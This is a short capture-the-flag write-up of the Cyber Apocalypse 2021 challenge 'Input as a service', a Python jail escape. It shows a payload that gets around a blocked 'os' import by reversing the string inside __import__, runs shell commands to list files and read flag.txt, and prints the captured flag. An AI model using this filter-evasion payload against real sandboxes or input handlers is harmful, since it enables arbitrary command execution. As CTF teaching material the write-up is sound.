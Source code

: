 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2021 | Input as a service Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2021
parent: cyber_apocalypse_2021
category: misc
challenge: Input as a service
tags: "misc, ava, python, jail, escape"
date: 2021-04-24T00:00:00+00:00
last_update: 2021-04-24T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2021</h1>

## Input as a service

> Solved by : ava

* We are given a py-jail 
* https://programmer.help/blogs/python-sandbox-escape.html 
* I used this website as reference, `os` and such imports are banned, so we used string manipulation
* we just reverse the string `os` to `so` and import it and then do `ls` command to * * see the `flag.txt` and then just `cat` the flag
* the code to do is given below

```bash

__import__('so'[::-1]).system('ls')


flag.txt
input_as_a_service.py


__import__('so'[::-1]).system('cat flag.txt')

CHTB{4li3n5_us3_pyth0n2.X?!}
```

